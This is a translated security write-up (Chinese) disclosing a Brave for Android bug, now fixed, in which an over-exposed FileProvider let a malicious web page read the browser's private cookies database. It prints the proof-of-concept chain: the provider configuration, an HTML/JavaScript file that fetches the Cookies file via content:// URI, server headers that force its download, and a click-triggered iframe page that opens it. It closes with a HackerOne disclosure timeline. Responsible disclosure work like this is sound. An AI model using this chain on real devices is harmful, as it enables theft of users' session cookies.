



# 勇敢——远程偷你的饼干

> 原文：<https://infosecwriteups.com/brave-stealing-your-cookies-remotely-1e09d1184675?source=collection_archive---------0----------------------->



Brave for Android 有一个漏洞，允许恶意网页远程窃取您的 cookies。该漏洞是通过 HackerOne 报告的，修复耗时 5 个月。

# 介绍

在我研究 Android 应用程序的过程中，我在一些最常用的浏览器中发现了一些漏洞。在研究 Brave 的时候，我注意到它使用了一个[内容提供者](https://developer.android.com/reference/android/content/ContentProvider.html),这个提供者公开了公共目录中的所有文件以及私有文件。

为了处理文件，大多数 Android 应用程序使用一个[文件提供者](https://developer.android.com/reference/androidx/core/content/FileProvider)。这允许使用`content://`计划的 URI 访问文件。为了在 Android 中配置文件提供者，Brave 在其`AndroidManifest.xml`文件中声明了以下内容:

```
<provider android:name="org.chromium.chrome.browser.util.ChromeFileProvider" android:exported="false" android:authorities="com.brave.browser.FileProvider" android:grantUriPermissions="true">
    <meta-data android:name="android.support.FILE_PROVIDER_PATHS" android:resource="@xml/file_paths"/>
</provider>
```

在它的`file_paths.xml`中，存储了这个提供者的可用文件信息，Brave 有以下内容:

```
<paths>
    <root-path name="root" path="." />
    <files-path name="images" path="images/" />
    <cache-path name="cache" path="net-export/" />
    <cache-path name="passwords" path="passwords/" />
    <cache-path name="traces" path="traces/" />
    <cache-path name="webapk" path="webapks/" />
    <cache-path name="offline-cache" path="Offline Pages/archives/" />
    <external-path name="downloads" path="Download/" />
    <external-path name="downloads" path="Android/data/com.brave.browser/files/Download/" />
</paths>
```

我立刻看到了`root`文件夹的配置，其中有`root-path`和`.`的组合，这意味着主目录`/`是可用的。这包括`/sdcard/`以及`/data/`。

大部分浏览器都支持直接阅读`content://`。例如，这对于打开本地 HTML 页面或 PDF 文件非常有用。Brave 也支持这一点，所以在 Brave 中打开一个`content://` URL 将在浏览器中呈现该文件。

由于 Brave 公开了自己的私有文件夹`/data/data/com.brave.browser/`，我们可以命令 Brave 打开自己的 cookies 文件`content://com.brave.browser.FileProvider/root/data/data/com.brave.browser/app_chrome/Default/Cookies`，看看会发生什么:



Brave 从 content:// URLs 下载二进制文件

它下载文件。这本身就已经是一个漏洞了。这将允许恶意应用程序命令 Brave 打开该内容 URI，等待 Brave 下载该文件，然后从下载目录中检索该文件，该目录是一个公共目录，所有具有`STORAGE`权限的应用程序都可以使用。

这时我通过 HackerOne 向勇者队报告了漏洞。第二天，我想知道我是否可以通过找到一种从下载中窃取文件的方法，将这个漏洞升级到“远程”。

我注意到`content://`提供者和`iframes`之间存在交叉文件保护问题，允许通过`content://` URI 加载的 HTML 文件从另一个`content://` URI 加载另一个文件，前提是权限相同。

我决定将这个漏洞与之前的漏洞联系起来，让恶意网页生成一个恶意 HTML 文件，从设备中窃取 cookies。

恶意网页首先需要触发恶意 HTML 文件的下载。恶意 HTML 文件的内容可能是:

```
<script type="text/javascript">
​
  var request = new XMLHttpRequest();
  request.open("GET", "content://com.brave.browser.FileProvider/root/data/data/com.brave.browser/app_chrome/Default/Cookies", true);
  request.send(null);
  request.onreadystatechange = function() {
      if (request.readyState == 4) alert("Sending cookies to attacker: " + request.responseText);
  };
​
</script>
</html>
```

这将载入`content://com.brave.browser.FileProvider/root/data/data/com.brave.browser/app_chrome/Default/Cookies`的内容，并以警告模式打印出来。在真实的攻击场景中，内容会被发送到恶意服务器。

恶意页面加载后会触发上述文件的下载，该文件会保存在`/sdcard/Download/new_file.html`下。

```
self.send_response(200)
self.send_header("Content-Type", "application/octet-stream")
self.send_header("content-disposition", "attachment; filename=new_file.html")
self.end_headers()
```

因为 Brave 不允许在你打开一个新页面后，没有用户交互就打开另一个页面，所以我添加了一个点击监听器，当用户点击网页的任何位置时都会触发这个监听器:

```
<iframe src="/download_page.html" style="width:0;height:0;border:0; border:none;"></iframe>
​
<button id="myCheck" onclick="window.open('android-app://com.brave.browser/content/com.brave.browser.FileProvider/root/sdcard/Download/new_file.html#Intent;type=text/html;end');">
​
<script>
  document.addEventListener('click', function (event) {
    document.removeEventListener('click', this, false);
    document.getElementById("myCheck").click();
  }, false);
</script>
</html>
```

`iframe`将触发恶意 HTML 文件的下载，然后我创建了监听器来等待点击事件。

当用户点击屏幕时，恶意 HTML 将打开并触发漏洞。



显示 cookies 数据库内容的完整漏洞

# 结论

尽管这需要用户交互，但点击网页的情况并不少见，用户可能会被许多方式欺骗。第二天，我用这个新的漏洞更新了我的初步报告，将问题的严重性提高到了危急。

# 时间表

*   2020 年 5 月 16 日—向 HackerOne 提交初步报告
*   2020 年 5 月 17 日—报告远程攻击
*   2020 年 6 月 2 日—修复开始
*   2020 年 6 月 16 日—部署修复
*   2020 年 6 月 18 日——奖金分配(500 美元)
*   2020 年 8 月 29 日—由于回归，报告重新打开
*   2020 年 10 月 23 日—修复重新部署

Brave [在 v1.12.32](https://github.com/brave/brave-core/pull/5841) 中解决了该问题，大约在最初报告后 1 个月。然而，由于在 v1.13.87 中 Brave 处理本地 PDF 文件的方式出现倒退，此修复[被恢复。最终修复](https://github.com/brave/brave-core/pull/6530)[在 v1.18.5 中的初始](https://github.com/brave/brave-core/pull/6836)[报告](https://github.com/brave/brave-core/pull/6836)5 个月后部署。

你可以在这里阅读完整的披露报告[。](https://hackerone.com/reports/876192)

这篇文章是我 2020 年在 Android 浏览器上发现的一系列漏洞的一部分。如果你喜欢这个，你可以在这里阅读我在火狐[发现的一个类似的漏洞，关于一个网站如何窃取你所有的 cookies。请继续关注其他浏览器上的后续报道！](/firefox-and-how-a-website-could-steal-all-of-your-cookies-581fe4648e8d)

干杯，

**推特** : [@kanytu](https://twitter.com/kanytu)

**领英**:[www.linkedin.com/in/kanytu](http://www.linkedin.com/in/kanytu)